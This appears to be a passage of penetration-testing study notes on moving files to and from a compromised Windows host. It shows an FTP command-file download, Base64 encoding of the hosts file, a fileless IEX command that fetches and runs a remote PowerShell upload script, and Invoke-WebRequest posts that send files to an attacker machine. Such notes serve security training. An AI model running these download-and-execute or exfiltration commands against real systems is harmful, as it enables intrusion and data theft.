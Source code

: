#### Command File Method
 When we get a shell on a remote machine, **we may not have an interactive shell**. If that's the case, we can create an FTP command file to download a file. First, we need to create a file containing the commands we want to execute and then use the FTP client to use that file to download that file.
```powershell
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

## Upload Operations

### Base64 Encoding for Upload

#### Encode a File in PowerShell
  Convert a file (e.g. `hosts`) to a Base64 string:
```powershell
[Convert]::ToBase64String((Get-Content -Path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
    ```
#### Decode on attack machine:
  Use the base64 command to decode:
```bash
echo <base64_string> | base64 -d > hosts
```
### PowerShell Web Uploads

#### Installing a configured webServer with upload
```bash
pip3 install uploadserver
python3 -m uploadserver
```

#### Using a custom upload script
  We can use a PowerShell script `PSUpload.ps1` which uses Invoke-RestMethod to perform the upload operations. The script accepts two parameters `-File`, which we use to specify the file path, and `-Uri`, the server URL where we'll upload our file.
```powershell
# Execute fileless script PSUpload.ps1
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

# Upload a file into an attacker machine
Invoke-FileUpload -Uri http://<target_ip>:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

##### Alternative – Base64 Upload with Netcat:
An alternative to the above is to send base64 encoded file over a network and decode it on the receiving end.
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))

Invoke-WebRequest -Uri http://<target_ip>:8000/ -Method POST -Body $b64

```
 